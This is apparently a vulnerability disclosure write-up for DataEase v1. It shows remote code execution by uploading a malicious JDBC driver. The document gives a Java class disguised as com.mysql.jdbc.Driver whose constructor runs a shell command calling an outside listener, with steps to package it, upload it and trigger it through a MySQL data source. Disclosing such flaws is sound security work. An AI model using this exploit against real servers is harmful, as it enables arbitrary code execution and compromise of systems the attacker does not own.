










- Official website : https://dataease.io/

- installation manual : https://community.fit2cloud.com/#/products/dataease/getstarted

- Vulnerable version : v1

- How to Install:

```
curl -sSL https://dataease.oss-cn-hangzhou.aliyuncs.com/quick_start.sh | sh
```



- Vulnerability Exploitation

1. Login Console

2. Enter sequentially `数据源` -> `驱动管理`



3. select `添加驱动`



4.  click`保存`



5.  click`驱动名称-test`, Edit this driver



```java
package com.mysql.jdbc;

public class Driver {
    public Driver(){
        try{
            Runtime.getRuntime().exec("curl http://192.168.1.107:1234/rce");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        Driver e = new Driver();
    }
}
```

- Package the above code into a jar file
- Upload jar file And fill in the content in the picture



- Add MySQL data source



- `驱动` Choose the driver we created



- click `保存`



- Successfully received curl request

